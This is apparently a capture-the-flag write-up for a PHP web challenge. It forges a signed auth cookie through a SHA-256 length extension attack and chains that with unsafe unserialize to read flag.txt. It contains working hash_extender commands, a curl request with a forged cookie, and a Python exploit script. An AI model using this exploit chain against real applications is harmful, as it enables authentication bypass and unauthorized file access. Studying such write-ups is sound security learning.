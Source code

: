 This is some difficult

First, the auth code is vulnerable to a length extension attack. Also, passing user input to unserialize is dangerous.

Begin by creation `test.php` with the following contents:

```php
<?php
include("config.php");
include("classes.php");
$f = new File("flag.txt");
echo serialize($f);
```

Take that, and reverse it, and use length extension to append that.

Next, use the guide here: [https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack?utm_source=rss&utm_medium=rss&utm_campaign=plaidctf-web-150-mtpox-hash-extension-attack](here), to exploit the length extension. 

```
./hash_extender --data ';0:b' -s 25379ccdaefc067c701659406dad068fe5dacefa53a45a9fdf402b8942c247c2 --append '};"txt.galf":8:s;"emanelif":8:s{:1:"eliF":4:O' --secret-min=32 --secret-max=32 --out-data-format=html

curl -b "auth=O%3a4%3a%22File%22%3a1%3a%7bs%3a8%3a%22filename%22%3bs%3a8%3a%22flag%2etxt%22%3b%7d+%01%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; sig=76eefb902017f810c3c1afd05952f507017b9c58a1b6406422dbb31df0188e9b" http://web2015.icec.tf/giga/files.php

./hash_extender --data ';0:b' -s 25379ccdaefc067c701659406dad068fe5dacefa53a45a9fdf402b8942c247c2 --append '};"txt.galf":8:s;"emanelif":8:s{:1:"eliF":4:O' --secret-min=32 --secret-max=32 --out-data-format=html
```

```
import hlextend
import requests
import subprocess

def php_urlencode(s):
    '''Return php urlencoded string'''
    print "ENCODE: " + s
    s = s.replace("\x00", "\0")
    encode_php = "<?php $text = <<<EOD\n{}\nEOD;\necho urlencode($text);\n?>".format(s)

    with open('encode_me.php', 'w') as f:
        f.write(encode_php)

    output = subprocess.check_output('php encode_me.php', shell=True)
    return output

url = 'http://web2015.icec.tf/giga/files.php'
original_hash = 'f4229fe3f6cae91ad77f32cfda0de36c228b49d3b3a4b236beb3eee63411616a'
original_data = ';0:b'
appended_data = "".join(reversed('O:4:"File":1:{s:8:"filename";s:8:"flag.txt";}'))
key_length = 40

# Get our new hash for our new data
sha = hlextend.new('sha256')
cookie = sha.extend(appended_data, original_data, key_length, original_hash, raw=True)
cookie_hash = sha.hexdigest()
cookie = "".join(reversed(cookie))

# Send a request with our new cookie to verify our method works
output = php_urlencode(cookie)
cookies = {'sig': cookie_hash,
           'auth': output}
print requests.get(url, cookies=cookies).text
```


resources: https://github.com/bwall/HashPump
https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/mtpox
https://github.com/thebarbershopper/ctf-writeups/tree/master/pico-ctf-2014
https://blog.skullsecurity.org/2014/plaidctf-web-150-mtpox-hash-extension-attack
https://github.com/stephenbradshaw/hlextend